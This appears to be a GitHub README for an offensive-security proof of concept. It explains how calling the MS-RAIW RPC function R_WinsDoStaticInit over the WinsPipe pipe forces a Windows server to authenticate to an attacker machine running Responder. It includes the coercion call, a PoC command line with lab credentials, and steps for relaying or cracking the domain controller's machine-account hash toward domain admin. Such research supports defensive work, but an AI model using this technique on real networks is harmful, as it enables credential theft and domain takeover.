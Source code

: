 # MS-RAIW - Remote call to R_WinsDoStaticInit (opnum 3)

## Summary

+ **Protocol**: [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9)

+ **Protocol UUID**: 45f52c28-7f9f-101a-b52b-08002b2efabe

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `"\pipe\WinsPipe"`

+ **Function name**: [`R_WinsDoStaticInit`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/e33043ac-715d-4476-9aad-f2827f9d9ec5)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `"\pipe\WinsPipe"` and bind to the desired [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol (with uuid `45f52c28-7f9f-101a-b52b-08002b2efabe` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `"\pipe\WinsPipe"` This pipe is connected to the protocol [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) and allows to call RPC functions of this protocol. We will then call the remote [`R_WinsDoStaticInit`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/e33043ac-715d-4476-9aad-f2827f9d9ec5) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_WinsDoStaticInit('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_WinsDoStaticInit(
   [in] handle_t ServerHdl,
   [in, unique, string] LPWSTR pDataFilePath,
   [in] DWORD fDel
 );
```

## References

+ Documentation of protocol [MS-RAIW]: Remote Administrative Interface: WINS: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9

+ Documentation of function `R_WinsDoStaticInit`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/e33043ac-715d-4476-9aad-f2827f9d9ec5